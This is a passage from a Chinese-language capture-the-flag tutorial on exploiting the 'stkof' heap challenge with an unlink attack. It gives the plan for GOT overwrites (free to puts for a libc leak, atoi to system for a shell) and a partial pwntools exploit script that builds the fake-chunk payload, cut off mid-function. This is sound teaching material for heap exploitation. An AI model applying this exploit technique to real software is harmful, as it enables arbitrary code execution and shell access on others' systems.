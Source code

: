 根據上面分析，我們在前面先分配一個 chunk 來把緩衝區分配完畢，以免影響之後的操作。

由於程序本身沒有 leak，要想執行 system 等函數，我們的首要目的還是先構造 leak，基本思路如下

- 利用 unlink 修改 global[2] 爲 &global[2]-0x18。
- 利用編輯功能修改 global[0] 爲 free@got 地址，同時修改 global[1] 爲puts@got 地址，global[2] 爲 atoi@got 地址。
- 修改 `free@got` 爲 `puts@plt` 的地址，從而當再次調用 `free` 函數時，即可直接調用 puts 函數。這樣就可以泄漏函數內容。
- free global[1]，即泄漏 puts@got 內容，從而知道 system 函數地址以及 libc 中 /bin/sh 地址。
- 修改 `atoi@got` 爲 system 函數地址，再次調用時，輸入 /bin/sh 地址即可。

代碼如下

```python
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./stkof"
stkof = ELF('./stkof')
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./stkof")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')
head = 0x602140


def alloc(size):
    p.sendline('1')
    p.sendline(str(size))
    p.recvuntil('OK\n')


def edit(idx, size, content):
    p.sendline('2')
    p.sendline(str(idx))
    p.sendline(str(size))
    p.send(content)
    p.recvuntil('OK\n')


def free(idx):
    p.sendline('3')
    p.sendline(str(idx))


def exp():
    # trigger to malloc buffer for io function
    alloc(0x100)  # idx 1
    # begin
    alloc(0x30)  # idx 2
    # small chunk size in order to trigger unlink
    alloc(0x80)  # idx 3
    # a fake chunk at global[2]=head+16 who's size is 0x20
    payload = p64(0)  #prev_size
    payload += p64(0x20)  #size
    payload += p64(head + 16 - 0x18)  #fd
    payload += p64(head + 16 - 0x10)  #bk
    payload += p64(0x20)  # next chunk's prev_size bypass the check
    payload = payload.ljust(0x30, 'a')

    # overwrite global[3]'s chunk's prev_size
    # make it believe that prev chunk is at global[2]
    payload += p64(0x30)

    # make it believe that prev chunk is free
```